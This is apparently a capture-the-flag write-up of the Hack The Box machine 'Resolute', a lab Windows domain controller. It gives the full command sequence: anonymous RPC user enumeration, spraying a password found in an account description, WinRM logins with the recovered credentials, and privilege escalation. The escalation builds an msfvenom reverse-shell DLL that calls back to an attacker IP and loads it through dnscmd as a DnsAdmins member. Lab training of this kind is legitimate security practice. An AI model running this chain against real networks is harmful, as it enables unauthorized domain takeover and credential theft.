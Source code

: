 ```yaml
---
layout: post
title: HTB Machine - Resolute
subtitle: Writeup
cover-img: /assets/img/Scifi.1920x1080.jpg
thumbnail-img: /assets/img/Scifi.1920x1080.jpg
share-img: /assets/img/Scifi.1920x1080.jpg
tags: [ HTB, Hack the Box]
---
```


# we try to enumerate users and group domains

rpcclient -U "" 10.10.10.169 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt

rpcclient -U "" 10.10.10.169 -N -c "enumdomgroups" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
Enterprise Read-only Domain Controllers
Domain Admins
Domain Users
Domain Guests
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Group Policy Creator Owners
Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
Enterprise Key Admins
DnsUpdateProxy
Contractors

#we can check the members of the admin group with the rid and then check who is that member.
rpcclient -U "" 10.10.10.169 -N -c "querygroupmem 0x200"
	rid:[0x1f4] attr:[0x7]
	
rpcclient -U "" 10.10.10.169 -N -c "queryuser 0x1f4"
	(snip) Administrator

#we try to get a TGT but it is not possible.

/home/rickybana/.local/bin/GetNPUsers.py -no-pass -usersfile users.txt megabank.local/

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ryan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User marko doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sunita doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User abigail doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User marcus doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sally doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fred doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User angela doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User felicia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gustavo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ulf doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User stevie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claire doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paulo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User steve doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annette doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annika doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User per doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claude doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User melanie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zach doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User simon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User naoki doesn't have UF_DONT_REQUIRE_PREAUTH set


#There is a password for a user when displaying the info

rpcclient -U "" 10.10.10.169 -N -c "querydispinfo"
(snip)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
(snip)

#We try to winrm and smb with the cred marko:Welcome123! but it didnt work so we are going to spray that password to other users and see.

crackmapexec smb 10.10.10.169 -u users.txt -p Welcome123! --continue-on-success
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 

#we found valid credentials 
crackmapexec smb 10.10.10.169 -u melanie -p Welcome123!
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 

#we can winrm with it and find the first flag.

crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)

evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'

# We check privileges, nothing intersting. Check the folders present in users too and there is ryan, but we cannot access the folder. We can check net privileges as well.

whoami /all
(snip)
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

C:\Users\ryan> dir
Access to the path 'C:\Users\ryan' is denied.

net user melanie
(snip)
Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
(snip)

net user ryan
Local Group Memberships
Global Group memberships     *Domain Users         *Contractors

#we will need to check what the contractors groups can do. In the meantime if we see around the directories there is nothing that peaks our interest. However we are not able to see all hidden folders, so we need to check for those too and that way we find an interesting folder that is not usually present (PSTranscripts) and a file.

dir -Force
    Directory: C:\PSTranscripts\20191203
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

#the file contains a password for the user ryan.

ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

#validate those credentials with crackmapexec and gain access via winrm. Note: it says that is pwned for some strange reason but the user is not admin. 

crackmapexec winrm 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)

evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'

#When checking privileges we see the user is part of Dnsadmins group.

whoami /all
(snip)
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
(snip)

#Enumerate the groups and check the localgroup and the particular group. With the 3 following commands.

net group
net localgroup 
net localgroup DnsAdmins

#same as GTFObins for linux there is LOLBAS for windows. Go to https://lolbas-project.github.io/# website and search for dns. We are gonna run a command in the target that will download a malicious dll, the service will need to be stopped and then started to download. We craft the dll with msfvenom, place our nc listener, and create an smb shared folder. We are going to use rlwrap (install with apt if needed) so we have other features.


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f dll -o pwned.dll

sudo rlwrap nc -nlvp 443

/home/rickybana/.local/bin/smbserver.py smbFolder $(pwd) -smb2support

# We are ready then to execute the command and then stop/start the service.

dnscmd.exe /config /serverlevelplugindll \\10.10.14.4\smbFolder\pwned.dll

sc.exe stop dns

sc.exe start dns

# we should get a console now with privilege access.

C:\Windows\system32>whoami 
whoami 
nt authority\system

